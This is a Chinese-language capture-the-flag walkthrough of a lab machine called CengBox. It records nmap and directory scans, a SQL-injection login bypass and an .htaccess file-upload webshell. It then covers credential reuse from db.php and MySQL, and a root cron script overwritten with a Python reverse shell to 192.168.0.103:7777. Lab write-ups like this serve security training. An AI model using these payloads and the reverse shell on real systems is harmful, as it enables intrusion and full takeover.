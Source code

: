 ### 信息收集：

```
nmap -sP 192.168.0.0/24 
```

```
nmap -p- -sV -A 192.168.0.102 
```

```
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.8 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 a9:cc:28:f3:8c:f5:0e:3f:5a:ed:13:f3:ad:53:13:9b (RSA)
|   256 f7:3a:a3:ff:a1:f7:e5:1b:1e:6f:58:5f:c7:02:55:9b (ECDSA)
|_  256 f0:dd:2e:1d:3d:0a:e8:c1:5f:52:7c:55:2c:dc:1e:ef (ED25519)
80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-title: CEng Company
MAC Address: 00:0C:29:2F:CF:B5 (VMware)
Device type: general purpose
Running: Linux 3.X|4.X
OS CPE: cpe:/o:linux:linux_kernel:3 cpe:/o:linux:linux_kernel:4
OS details: Linux 3.2 - 4.9
Network Distance: 1 hop
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

TRACEROUTE
HOP RTT     ADDRESS
1   0.73 ms 192.168.0.102 (192.168.0.102)
```

```
└─# searchsploit OpenSSH 7.2  
```

发现此版本Apache存在解析漏洞：CVE-2017-15715，和文件上传有关

goby扫了一下，显示无漏洞

这里之前使用时的字典小了，啥也没有，22端口也只能爆破，就换了个大字典，发现/masteradmin

```
└─# gobuster dir -u http://192.168.0.102 -w /usr/share/wordlists/dirb/big.txt -x php,txt,html,js,php.bak,txt.bak,html.bak,json,git,git.bak 
└─# nikto -host 192.168.0.102
```

```
/.htaccess            (Status: 403) [Size: 278]
/.htaccess.js         (Status: 403) [Size: 278]
/.htaccess.json       (Status: 403) [Size: 278]
/.htaccess.php        (Status: 403) [Size: 278]
/.htaccess.html       (Status: 403) [Size: 278]
/.htaccess.git.bak    (Status: 403) [Size: 278]
/.htaccess.txt        (Status: 403) [Size: 278]
/.htaccess.txt.bak    (Status: 403) [Size: 278]
/.htaccess.php.bak    (Status: 403) [Size: 278]
/.htpasswd.json       (Status: 403) [Size: 278]
/.htpasswd            (Status: 403) [Size: 278]
/.htaccess.git        (Status: 403) [Size: 278]
/.htpasswd.js         (Status: 403) [Size: 278]
/.htaccess.html.bak   (Status: 403) [Size: 278]
/.htpasswd.git.bak    (Status: 403) [Size: 278]
/.htpasswd.php        (Status: 403) [Size: 278]
/.htpasswd.txt        (Status: 403) [Size: 278]
/.htpasswd.html       (Status: 403) [Size: 278]
/.htpasswd.php.bak    (Status: 403) [Size: 278]
/.htpasswd.html.bak   (Status: 403) [Size: 278]
/.htpasswd.txt.bak    (Status: 403) [Size: 278]
/.htpasswd.git        (Status: 403) [Size: 278]
/css                  (Status: 301) [Size: 312] [--> http://192.168.0.102/css/]
/img                  (Status: 301) [Size: 312] [--> http://192.168.0.102/img/]
/index.php            (Status: 200) [Size: 5812]
/js                   (Status: 301) [Size: 311] [--> http://192.168.0.102/js/]
/masteradmin          (Status: 301) [Size: 320] [--> http://192.168.0.102/masteradmin/]
/server-status        (Status: 403) [Size: 278]
/uploads              (Status: 301) [Size: 316] [--> http://192.168.0.102/uploads/]
/vendor               (Status: 301) [Size: 315] [--> http://192.168.0.102/vendor/]

+ Server: Apache/2.4.18 (Ubuntu)
+ The anti-clickjacking X-Frame-Options header is not present.
+ The X-XSS-Protection header is not defined. This header can hint to the user agent to protect against some forms of XSS
+ The X-Content-Type-Options header is not set. This could allow the user agent to render the content of the site in a different fashion to the MIME type
+ No CGI Directories found (use '-C all' to force check all possible dirs)
+ Apache/2.4.18 appears to be outdated (current is at least Apache/2.4.37). Apache 2.2.34 is the EOL for the 2.x branch.
+ Web Server returns a valid response with junk HTTP methods, this may cause false positives.
+ OSVDB-3233: /icons/README: Apache default file found.

```

再试试对http://192.168.0.102/masteradmin/下目录文件枚举

```
└─# gobuster dir -u http://192.168.0.102/masteradmin/ -w /usr/share/wordlists/dirb/big.txt -x php,txt,html,js,php.bak,txt.bak,html.bak,json,git,git.bak
/db.php               (Status: 200) [Size: 0]
/fonts                (Status: 301) [Size: 326] [--> http://192.168.0.102/masteradmin/fonts/]
/images               (Status: 301) [Size: 327] [--> http://192.168.0.102/masteradmin/images/]
/js                   (Status: 301) [Size: 323] [--> http://192.168.0.102/masteradmin/js/]
/login.php            (Status: 200) [Size: 5137]
/upload.php           (Status: 200) [Size: 1440]
/vendor               (Status: 301) [Size: 327] [--> http://192.168.0.102/masteradmin/vendor/]
```

### sql注入后加文件上传：

使用万能密码登录，进入后是一个文件上传界面

<img src=".\图片\Snipaste_2022-11-24_16-04-14.png" alt="Snipaste_2022-11-24_16-04-14" style="zoom:60%;" />

试试apache的解析漏洞

[Apache最新解析漏洞：CVE-2017-15715复现 - 腾讯云开发者社区-腾讯云 (tencent.com)](https://cloud.tencent.com/developer/news/338482)

但是我失败了

靶机里可能有.htaccess，而且页面返回提示是：extension not allowed, please choose a CENG file

把文件后缀名改为1.php.ceng，由于.htaccess的解析，即可成功执行1.php.ceng

哥斯拉连上，此时是www权限

### 权限提升：

寻找suid文件

```
find / ‐perm ‐u=s ‐type f 2>/dev/null
```

查看计划任务

```
cat /etc/crontab
```

查看目前进程

```
ps -ef
```

没思路，这里直接上脚本，开python服务下在并运行

发现一个root的定时任务 /opt/md5check.py，但是我们www用户无法查看修改，但只要修改成一个反弹shell就是root权限

这里暂停一下，先搞个交互shell，还是用哥斯拉弹到msf再用python

然后查看到

```
/opt >cat /var/www/html/masteradmin/db.php
$serverName = "localhost";
$username = "root";
$password = "SuperS3cR3TPassw0rd1!";
```

再直接mysql登录，这里有个疑问，我们nmap只扫到80和22端口，但他其实有mysql服务的，应该是mysql对内开放吧

```
mysql> select * from admin;
select * from admin;
+----+-------------+---------------+
| id | username    | password      |
+----+-------------+---------------+
|  1 | masteradmin | C3ng0v3R00T1! |
+----+-------------+---------------+
1 row in set (0.00 sec)
```

su到cengover用户

```
www-data@cengbox:/var/www/html/uploads$ su cengover
su cengover
Password: C3ng0v3R00T1!

cengover@cengbox:/var/www/html/uploads$ id
id
uid=1000(cengover) gid=1000(cengover) groups=1000(cengover),4(adm),24(cdrom),30(dip),46(plugdev),100(users),110(lxd),117(lpadmin),118(sambashare)
```

修改/opt/md5check.py提权

```
echo 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("192.168.0.103",7777));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);' >md5check.py
```

等等

<img src=".\图片\Snipaste_2022-11-24_17-43-49.png" alt="Snipaste_2022-11-24_17-43-49" style="zoom:80%;" />

### 总结：

字典不够大？那就换个大点的，再大点。

sql注入的万能密码，文件上传的.htaccess，可把指定后缀文件解析成php。

mysql服务可以开启，在外面不一定扫得到

提权命令不行就上脚本，这里是计划任务，以root身份运行了一个计划任务md5check.py，我们需要修改其为反弹shell，就反弹得到root权限，而我们需要cengover身份才能修改md5check.py，在翻阅网站数据库账号敏感信息，提权到mysql，再到数据表里找到了cengover的密码。